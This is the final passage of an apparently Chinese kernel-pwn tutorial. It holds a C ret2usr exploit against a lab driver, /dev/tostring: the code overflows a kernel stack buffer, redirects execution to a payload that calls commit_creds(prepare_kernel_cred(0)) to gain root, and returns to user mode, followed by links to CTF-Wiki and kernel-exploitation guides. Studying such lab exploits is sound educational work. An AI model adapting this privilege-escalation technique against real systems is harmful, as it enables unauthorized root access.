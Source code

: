 ```
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xC10711F0;
void* (*commit_creds)(void*) KERNCALL = (void*) 0xC1070E80;
void payload(void)`{`
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
          "iret;");
`}`

int main(void)`{`
    char Padding[9] = "AAAAAAAA";
    char Eip[5];
    init_tf_work();
    int fd = open("/dev/tostring",2);
    for(int i = 0;i &lt; 0x40; i++)
        write(fd,Padding,sizeof(Padding));
    write(1,"OK!n",sizeof(Eip));
    *((void**)(Eip)) = &amp;payload;
    write(fd,Eip,sizeof(Eip));
    read(fd,receive,255);
    return 0;
`}`
```



## 0x08 参考链接

[CTF-Wiki Linux Kernel](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel)

[Exploiting Stack Overflows in the Linux Kernel – Jon Oberheide](https://jon.oberheide.org/blog/2010/11/29/exploiting-stack-overflows-in-the-linux-kernel/)

[A Kernel Exploit Step by Step – akliilias](https://www.coursehero.com/file/49274885/kernel-exploit-step-by-steppdf/)

[kernel pwn（0）：入门&amp;ret2usr – Magpie](https://www.anquanke.com/post/id/172216)

[Linux-内核编译 – 咲夜南梦](https://196011564.github.io/2020/02/26/Linux-%E5%86%85%E6%A0%B8%E7%BC%96%E8%AF%91/#%E6%89%A7%E8%A1%8C%E4%BB%A5%E4%B8%8B%E5%91%BD%E4%BB%A4%E4%B8%8B%E8%BD%BDkernel%E6%BA%90%E7%A0%81)
